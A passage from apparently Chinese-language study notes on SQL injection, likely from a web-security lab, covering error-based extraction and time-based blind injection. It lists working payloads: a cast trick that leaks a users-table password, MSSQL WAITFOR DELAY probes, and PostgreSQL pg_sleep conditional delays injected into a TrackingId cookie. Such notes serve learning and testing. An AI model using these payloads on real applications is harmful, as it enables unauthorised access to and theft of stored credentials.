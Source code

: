 密码

```
' and 1=cast((select password from users limit 1) as int)--
```

![image-20250502170334972](./img/image-20250502170334972.png)

### 时间盲注

如果应用程序在执行 SQL 查询时捕获到数据库错误并妥善处理这些错误，则应用程序的响应不会有任何差异

通常可以通过触发时间延迟来利用 SQL 盲注漏洞

`Mssql`

```
'; IF (1=2) WAITFOR DELAY '0:0:10'--
'; IF (1=1) WAITFOR DELAY '0:0:10'--
```

延迟10秒，数据库是PostgreSQL

```
TrackingId=v8MAgnq3ccMWIGUp'||(SELECT pg_sleep(10))--;
```

![image-20250502171740115](./img/image-20250502171740115.png)

构造条件延迟

```
'|| (SELECT CASE WHEN (1=1) THEN pg_sleep(3) ELSE pg_sleep(0) END)--
```
